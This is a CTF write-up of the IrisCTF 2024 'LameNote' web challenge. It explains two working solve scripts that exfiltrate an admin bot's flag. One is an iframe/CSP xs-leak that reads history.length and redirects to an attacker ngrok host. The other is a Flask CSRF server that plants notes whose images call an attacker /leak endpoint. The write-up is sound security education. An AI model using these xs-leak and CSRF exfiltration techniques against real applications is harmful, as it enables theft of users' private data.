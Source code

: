 ```yaml
---
title: LameNote
date: 2024-01-08
tags: 
- web
- xs-leak
- author-hartmannsyg
categories: IrisCTF 2024
---
```


written by {% person hartmannsyg %}

This was one of the web challenges in IrisCTF 2024, I spent quite a while trying it during the CTF (I was unsuccessful) and also spent quite some time understanding it after the CTF. Thanks to everyone who helped answer my (many) questions in the IrisCTF discord lol.

Also tomato said "If you are done understanding it can you make a writeup for it" so here we are.

The challenge is as follows:
- submit a URL
- admin bot will create a note with a flag in it at https://lamenote-web.chal.irisc.tf/
- it will then visit your url, and your website has to steal the flag, somehow

The site also has a search functionality, and if there is only one note, it will directly display the note. If there are none it simply says "No notes". Otherwise, it will simply give you a list. When the site is directly displaying the note (as there is only one note that fits the query), an image will be requested. This differentiation is quite important for the solution.

We also know that the flag matches `irisctf{[a-z_]+}` so our charlist is only `_abcdefgihkjlmnopqrstuvwxyz`

## "Intended Solution" by sera

sera has given us the solve html:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body

      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', 'img-src \'none\';')
      f.src = url;
      let rCount = 0;
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 100)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000));
      f.remove();
      f.src = 'https://blah.ngrok-free.app/csp';
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 100));
      let ll = f.contentWindow.history.length;
      document.body.innerHTML = "";
      return ll;
    }
    let known = "";
    const urlParams = new URLSearchParams(window.location.search);
    if(urlParams.get("known") !== null) known = urlParams.get("known");
    let l = await go("!"); // start
    console.log("start", l);
    for(let c of '_abcdefgihkjlmnopqrstuvwxyz}') {
      let l2 = await go(known + c);
      console.log(l2, l, known, c);
      fetch("/?log=" + l2 + "|" + l + "|" + known + "|" + c);
      if(l2 == l) {
        known += c;
        l = l2;
        fetch("/?log=" + known);
        break;
      };
      l = l2;
    }
      if(!known.endsWith("}")) {
        window.open("/?known=" + known);
        window.close();
        while(1) {
          await new Promise(r => setTimeout(r, 1000));
          console.log("idle");
        }
      }
    })();
    </script>
</body>
</html>
```

I *really* did not understand what was going on here so I'll unpack what I've known:

### using `img-src 'none'` to create a navigation binary

{% ccb lang:html gutter1:1-20 highlight:9 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(url) {
        f = document.createElement('iframe')
        f.setAttribute('sandbox', 'allow-same-origin');
        f.setAttribute('csp', "img-src 'none';")
        f.src = url; // go to the site
        document.body.appendChild(f)
    }
    // it will return "No notes", will succesfully navigate to page
    await go('https://lamenote-web.chal.irisc.tf/search?query=text_is_not_in_any_note') 
    // it will return the note with the flag, except that HAS AN IMAGE, so it will not successfully navigate
    await go('https://lamenote-web.chal.irisc.tf/search?query=irisctf') 
    })()
    </script>
</body>
</html>
{% endccb %}

(we wrap everything in `(async function(){ ... })()` to run the code asynchronously)

The `go(url)` function creates an iframe and goes to the specified url. However, due to the specified csp of `img-src 'none'`, it is unable to navigate to the page. This is because the page's csp is **weaker** than the iframe's csp, so the site is unable to render

So the idea now is that we can guess character by character, and when it fails we know it is the correct one:

{% ccb html:true %}
/search?query=irisctf{<span class="subst">a</span> ✅ Navigation Successful
/search?query=irisctf{<span class="subst">b</span> ✅ Navigation Successful
/search?query=irisctf{<span class="subst">c</span> ✅ Navigation Successful
...
/search?query=irisctf{<span class="subst">p</span> ❌ Navigation Unsuccessful, note with 'irisctf{p' exists
/search?query=irisctf{p<span class="subst">a</span> ✅ Navigation Successful
/search?query=irisctf{p<span class="subst">b</span> ✅ Navigation Successful
/search?query=irisctf{p<span class="subst">c</span> ✅ Navigation Successful
...
/search?query=irisctf{p<span class="subst">l</span> ❌ Navigation Unsuccessful, note with 'irisctf{pl' exists
{% endccb %}

### xs-leak via navigation

(xs-leak stands for Cross-site leak)

Here is a [relevant page](https://xsleaks.dev/docs/attacks/navigations/) regarding this exploit.

We have a method for *finding* the flag, as long as we can tell the difference between a **successful** navigation and an **unsuccessful** one.

In the navigation xs-leak, we see that we can deduce whether or no the navigation is successful by looking at the iframe's history via `contentWindow.history.length;`. However, this only works when the `src` is the origin (i.e. `http://0.tcp.ap.ngrok.io:11568/`, which is there our site is hosted), so we redirect the iframe back to our site:

{% ccb lang:html gutter1:1-28 diff_add:13-19 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

However, regardless of whether it errors or not, the history only increments one at a time:

{% ccb %}
! history=13
a history=14
b history=15
c history=16
...
y history=38
z history=39
{% endccb %}

Apparently, the solution to this is to run the iframe twice, like so:

{% ccb lang:html gutter1:1-36 diff_add:12-19 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 500)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

{% ccb html:true %}
! history=3
a history=5
b history=7
c history=9
d history=<span class="number">10</span> (history length only increased once = navigation failed = flag starts with d)
{% endccb %}

With this, we can basically test for the flag now, but there is one additional improvement that sera's solve script used, which is to *remove and then re-add the iframe to the document*

{% ccb lang:html gutter1:1-38 diff_add:22,24 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 100)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.remove();
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

What this does is that the `history.length` does not increment *unless* there is an error. Once again I'm not exactly sure why this happens

{% ccb html:true %}
! history=3
a history=3
b history=3
c history=3
d history=<span class="number">4</span> (history length increased = navigation failed = flag starts with d)
{% endccb %}

## Trixter's Solution (CSRF)

{% ccb caption:trixter url:https://discord.com/channels/1051808836593397781/1051819274995515392/1193886755900895322 lang:python %}
from flask import Flask, request
import sys

app = Flask(__name__)

flag_prefix = 'irisctf{'
chars = set('abcdefghijklmnopqrstuvwxyz_}')
ngrok_url = 'https://[...]'
reset_called = False

@app.route("/")
def index():
    return ("""
<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            const target = 'https://lamenote-web.chal.irisc.tf';
            function createNote(title, text, image) {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("srcdoc", `
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
    <form action="${target}/create" method="POST">
    <input type="hidden" name="title" value="${title}" />
    <input type="hidden" name="text" value="${text}" />
    <input type="hidden" name="image" value="${image}" />
    <input type="submit" value="Submit request" />
    </form>
    <script>
        document.forms[0].submit();
    <\/script>
</body>
</html>
`);
                document.body.appendChild(iframe);
            }

            function searchNote(search) {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("src", `${target}/search?query=${encodeURIComponent(search)}`);
                document.body.appendChild(iframe);
            }

            const prefix = '%s';
            const charset = 'abcdefghijklmnopqrstuvwxyz_}';
            const remote = '%s';
            for(const char of charset) createNote('trixter', prefix + char, `${remote}/leak?char=` + char);

            setTimeout(() => {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("src", `${remote}/reset`);
                iframe.onload = () => {
                    for(const char of charset) searchNote(prefix + char);
                };
                document.body.appendChild(iframe);
            }, 2000);
        </script>
    </body>
</html>
""" % (flag_prefix, ngrok_url)).strip()

@app.route("/reset")
def reset():
    global reset_called

    reset_called = True
    return "reset triggered"

@app.before_request
def leak():
    global reset_called, chars, flag_prefix

    if request.method == "OPTIONS" and reset_called:
        char = request.args.get("char", "")
        if char in chars:
            print('Flag does not have %s' % char)
            chars.remove(char)

            if len(chars) == 1:
                flag_prefix += list(chars).pop()
                print('Flag Prefix:', flag_prefix)

                reset_called = False
                chars = set('abcdefghijklmnopqrstuvwxyz_')

        return ""
{% endccb %}

What this does is more "straightforward"(?):
- create an iframe for each possible character
- each iframe creates a note with **the image being our `/leak?char=` url** and the contents being:
{% ccb %}
irisctf{a
irisctf{b
irisctf{c
irisctf{d
...
{% endccb %}
- we then query all of them. If the character is **wrong**, there will only be one note displayed, and it will attempt to fetch **our `/leak?char=` url as an image**. However, if the character is **correct**, there will be 2 results: the **actual flag note** and **the one we injected**. This means **our `/leak?char=` url will not be fetched**
{% ccb html:true %}
/search?query=irisctf{<span class="subst">a</span> ✅ /leak?char=a
/search?query=irisctf{<span class="subst">b</span> ✅ /leak?char=b
/search?query=irisctf{<span class="subst">c</span> ✅ /leak?char=c
...
/search?query=irisctf{<span class="subst">p</span> ❌ no /leak?char=<span class="subst">p</span>, another note with 'irisctf{p' exists, this is the correct one
/search?query=irisctf{p<span class="subst">a</span> ✅ /leak?char=a
/search?query=irisctf{p<span class="subst">b</span> ✅ /leak?char=b
/search?query=irisctf{p<span class="subst">c</span> ✅ /leak?char=c
...
/search?query=irisctf{p<span class="subst">l</span> ❌ no /leak?char=<span class="subst">l</span>, another note with 'irisctf{pl' exists, this is the correct one
{% endccb %}
